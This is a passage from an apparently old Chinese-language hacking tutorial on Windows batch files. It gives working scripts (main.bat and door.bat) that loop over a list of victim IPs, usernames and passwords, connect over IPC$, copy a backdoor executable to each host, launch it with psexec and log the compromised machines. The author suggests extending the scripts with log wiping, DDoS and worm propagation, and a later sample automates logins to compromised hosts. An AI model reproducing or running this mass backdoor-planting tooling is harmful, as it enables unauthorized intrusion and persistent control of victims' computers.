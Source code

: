 而cultivate.bat无非就是用net use命令来建立IPC$连接,并copy木马+后门到victim,然后用返回码(If errorlever =)来筛选成功种植后门的主机,并
echo出来,或者echo到指定的文件。  

delims= 表示vivtim.txt中的内容是一空格来分隔的。我想看到这里你也一定明白这victim.txt里的内容是什么样的了。应该根据%%i %%j %%k表示的
对象来排列,一般就是 ip password username。  

代码雏形:  

```
------- cut here then save as a batchfile(I call it main.bat ) -------------------  
@echo off  
@if "%1"=="" goto usage  
@for /f "tokens=1,2,3 delims= " %%i in (victim.txt) do start call IPChack.bat %%i %%j %%k  
@goto end  
:usage  
@echo run this batch in dos modle.or just double-click it.  
　:end  
---- cut here then save as a batchfile(I call it main.bat ) ----- 
    -----cut here then save as a batchfile(I call it door.bat) -----  
@net use //%1/ipc$ %3 /u:"%2"  
@if errorlevel 1 goto failed  
@echo Trying to establish the IPC$ connection …………OK  
@copy windrv32.exe//%1/admin$/system32 && if not errorlevel 1 echo IP %1 USER %2 PWD %3 >>ko.txt  
@psexec //%1 c:/winnt/system32/windrv32.exe  
@psexec //%1 net start windrv32 && if not errorlevel 1 echo %1 Backdoored >>ko.txt  
:failed  
@echo Sorry can not connected to the victim.  
----- cut here then save as a batchfile(I call it door.bat) ------  
```

这只是一个自动种植后门批处理的雏形,两个批处理和后门程序(Windrv32.exe),PSexec.exe需放在统一目录下.批处理内容  
尚可扩展,例如:加入清除日志+DDOS的功能,加入定时添加用户的功能,更深入一点可以使之具备自动传播功能(蠕虫).此处不多做叙述,有兴趣的朋友可自行研究. 

##二.如何在批处理文件中使用参数  

批处理中可以使用参数,一般从1%到 9%这九个,当有多个参数时需要用shift来移动,这种情况并不多见,我们就不考虑它了。  

sample1:fomat.bat  

```
　@echo off  
if "%1"=="a" format a:  
:format  
@format a:/q/u/auotset  
@echo please insert another disk to driver A.  
@pause  
@goto fomat 
```

这个例子用于连续地格式化几张软盘,所以用的时候需在dos窗口输入fomat.bat a,呵呵,好像有点画蛇添足了~^_^  
sample2:  
当我们要建立一个IPC$连接地时候总要输入一大串命令,弄不好就打错了,所以我们不如把一些固定命令写入一个批处理,把肉鸡地ip password username 
当着参数来赋给这个批处理,这样就不用每次都打命令了。  

```
@echo off  
@net use //1%/ipc$ "2%" /u:"3%" 注意哦,这里PASSWORD是第二个参数。  
@if errorlevel 1 echo connection failed 
```
怎么样,使用参数还是比较简单的吧?你这么帅一定学会了^_^.No.3  

